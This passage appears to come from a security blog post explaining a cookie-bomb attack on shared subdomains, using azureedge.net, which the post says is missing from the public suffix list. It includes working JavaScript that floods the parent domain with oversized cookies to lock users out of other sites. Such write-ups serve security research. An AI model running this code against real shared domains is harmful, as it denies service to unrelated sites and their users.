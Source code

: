 The attack method using cookie bomb in combination with other techniques in this presentation is really impressive.

## Finding a place to easily set cookies

Where can we easily set cookies to achieve a cookie bomb? There is one, as mentioned earlier, a shared subdomain like `*.github.io`.

But aren't these already in the public suffix list? It's impossible to set cookies.

Just find one that's not in it!

But this is actually not an easy thing to do because you will find that almost all the services you know have already been registered, such as GitHub, AmazonS3, Heroku, and Netlify, etc.

But I found one that is not on the list, which is Azure CDN provided by Microsoft: azureedge.net.

I don't know why, but this domain is not part of the public suffix, so if I build a CDN myself, I can execute a cookie bomb.

## Actual testing

The code I used for the demo is as follows, referenced and rewritten from [here](https://github.com/wrr/cookie-bomb/blob/master/bomb.html):

``` js
const domain = 'azureedge.net'
const cookieCount = 40
const cookieLength = 3000
const expireAfterMinute = 5
setCookieBomb()

function setCookie(key, value) {
  const expires = new Date(+new Date() + expireAfterMinute * 60 * 1000);
  document.cookie = key + '=' + value + '; path=/; domain=' + domain + '; Secure; SameSite=None; expires=' + expires.toUTCString()
}

function setCookieBomb() {
  const value = 'Boring' + '_'.repeat(cookieLength)
  for (let i=0; i<cookieCount; i++) {
    setCookie('key' + i, value);
  }
}
```

Then upload the file to Azure and set up the CDN, and you will get a custom URL: https://hulitest2.azureedge.net/cookie.html (my azure has expired, so it should be broken now when you click on it)

After clicking it, a bunch of junk cookies will be set on `azureedge.net`:

![](/img/cookie-bomb/p2.png)

After refreshing, you will find that the website cannot be accessed:
